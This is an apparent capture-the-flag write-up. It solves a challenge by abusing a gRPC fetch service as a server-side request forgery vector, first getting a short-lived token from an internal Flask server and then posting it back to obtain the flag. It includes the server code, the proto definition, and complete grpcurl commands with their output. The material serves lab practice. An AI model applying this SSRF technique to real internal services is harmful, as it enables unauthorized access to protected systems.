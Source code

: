 # Catch the goose — writeup (raw)

We are given several public files:

* `Happy_Log.pcapng` (packet capture)
* `fetch.proto` (gRPC protocol definition)
* `flag_server.py` (Python source of the internal flag server)

The goal is to exploit a **gRPC-based SSRF** (Server-Side Request Forgery) and retrieve the flag from a protected internal server.

## **Challenge Analysis**

Quick recall: if you already solved the challenge named “Catch the goose”, you will notice that there is something with grpc here.

/token → /flag

### **1. Understanding the Internal Flag Server (`flag_server.py`)**

The Python file defines a web server with three main endpoints:

* `/token` (`GET`): Generates and returns a **short-lived token**
* `/flag` (`POST`): If sent a valid token, returns the **flag**
* `/` (`GET`): Returns “Meow” (irrelevant)
* All other URLs: Return 404

### **How Tokens Work**

* When `/token` is accessed via GET, it generates a SHA256 hash using the current Unix timestamp and a secret key. This token is only valid for **5 seconds** (`TOKEN_VALIDITY = 5`).
* When `/flag` is accessed via POST, it expects a form field called `token` containing a valid token. If the token is expired or incorrect, it responds with 401 Unauthorized.

### **Key Code Sections**

```python

@app.route("/token", methods=["GET"])
def get_token():
    token, timestamp = generate_token()
    return token

@app.route("/flag", methods=["POST"])
def get_flag():
    token = request.form.get('token')
    if not token:
        return "Token required", 401
    if not verify_token(token):
        return "Invalid token", 401
    return FLAG

```

---

### **2. The SSRF Vector: gRPC Fetch Service**

We do **not** have direct access to the Flask server. Instead, we have a gRPC-based "fetch" service described by `fetch.proto`, running at

`chal.78727867.xyz:6666`.

### **The Proto File Lets Us:**

* Specify a **URL**, **HTTP method** (GET, POST, etc.), **headers**, and **body** for an HTTP request
* The server will perform this request **from its own perspective** (internal SSRF!), and return the result.

### **Relevant Proto Message**

```

message FetchRequest {
  string url = 1;
  string method = 2;
  map<string, string> headers = 3;
  string body = 4;
}

```

This means we can **fully control** the HTTP request made by the server, including method, headers, and body.

---

### **3. Network Analysis: Wireshark**

The provided `Happy_Log.pcapng` file contains network traffic.

* Using Wireshark, we filter for `grpc` traffic and see HTTP2/gRPC requests to `/fetch.FetchService/FetchURL`.
* One of the packets contains a POST request with a body including a SHA256 hash, likely the token.

**Key finding:**

We see gRPC requests from the user to `chal.78727867.xyz:6666`, and the gRPC server forwarding SSRF HTTP requests internally (like `GET /token` and `POST /flag`).

---

## **Exploitation Steps**

### **Step 1: Get a Valid Token via SSRF**

We use `grpcurl` to tell the fetch service to **GET `/token`** from its own `localhost:80`:

```bash

grpcurl -plaintext -proto fetch.proto \
  -d '{"url":"http://localhost:80/token","method":"GET","headers":{}}' \
  chal.78727867.xyz:6666 fetch.FetchService/FetchURL

```

* This returns a JSON object with a `"content"` field containing a token:

  ```

  {
    "content": "2b5cd0b3684c7d0c585aafe0fe8c29431233dc655fb5728f932ec771e25f65f7"
  }

  ```

### **Step 2: Submit the Token via SSRF POST**

Within **5 seconds**, we POST this token to `/flag` via the same SSRF vector:

```bash

grpcurl -plaintext -proto fetch.proto \
  -d '{"url":"http://localhost:80/flag","method":"POST","headers":{"Content-Type":"application/x-www-form-urlencoded"},"body":"token=2b5cd0b3684c7d0c585aafe0fe8c29431233dc655fb5728f932ec771e25f65f7"}' \
  chal.78727867.xyz:6666 fetch.FetchService/FetchURL

```

* If successful, the server replies with:

  ```

  {
    "content": "NHNC{YuMMyeeeE_GOOOd_ChAL_rIGHT}"
  }

  ```

## Thats the flag
